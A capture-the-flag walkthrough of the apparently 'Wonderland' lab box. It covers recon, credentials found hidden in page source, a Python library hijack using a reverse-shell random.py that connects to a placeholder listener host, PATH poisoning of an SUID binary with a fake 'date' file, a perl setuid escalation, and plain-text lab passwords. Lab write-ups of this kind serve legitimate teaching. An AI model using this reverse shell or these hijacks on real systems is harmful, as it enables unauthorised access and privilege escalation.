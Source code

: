 ## recon

### nmap_scan
![[wonderland_nmap.png]]
> Nmap scan of target box

Ports open:
-	22 (SSH)
-	80 (Web Server)


### directory scanning

Scanning for directories on the webserver leads to `http://<ip>/r/a/b/b/i/t/`.

![[alice_homepage.png]]

#### Source code

Checking the source code for this page reveals a string that looks like an SHH user/pass combination.

`style="display:none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail`

## Alice > Rabbit

Using this combination as an SSH user/pass combination gains us access to the target machine.

![[wonderland_ssh_alice.png]]


### sudo -l

Running `sudo -l` tells us we can run `/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py` as user `rabbit`.

![[alice_sudo-l.png]]


Checking the file `walrus_and_the_carpenter.py` shows us that it is importing the library file `random.py`.

![[walrus_random.png]]

We can create our own random.py that the file will read first before the one in `/var/lib/` that throws us a shell we have to catch with a listener as user rabbit.

### Create random.py to throw shell as rabbit to listener.

Creating a new `random.py` file in the home directory allows us to inject malicious code into the running of `walrus_and_the_carpenter.py`. ([[Concepts#path_poisoning]])

Created `random.py` file:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<host_addr>",<port>))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Now when the python code is run using sudo to change to the user `rabbit` we gain a shell as `rabbit`:

## Rabbit > Hatter

Enumerating the home directory of user `rabbit` gives us a file called `teaParty`. This file has an SUID bit set by the user `hatter`. Running this file gives us a segmentation so it could be vulnerable to an overflow attack. Trying to read the contents of the file gives away that it is using the `date` command. We can poison the path with a new date file that contains `/bin/sh` in order to gain a shell as `hatter`. ([[Concepts#path_poisoning]])

`echo "/bin/sh" > /tmp/date`
`export PATH=/tmp:$PATH`

Running the `teaParty` file now will spawn a shell as `hatter`.

##### SHH in as hatter for better shell

Inside hatters home directory is a file `password.txt`. This can be used to SSH back into the machine for a nicer environment for use.

## Hatter > Root

### Run linpeas on target machine, shows pearl as able to set SUID bit

![[linpeas_output.png]]

#### GTFO bins for pearl, use cap_set payload 

![[perl_setuid.png]]

##### read root.txt in /home/alice/ and user.txt in /home/root/ (everything is upside down here)


## General Notes

alice password: HowDothTheLittleCrocodileImproveHisShiningTail

hatter password: WhyIsARavenLikeAWritingDesk?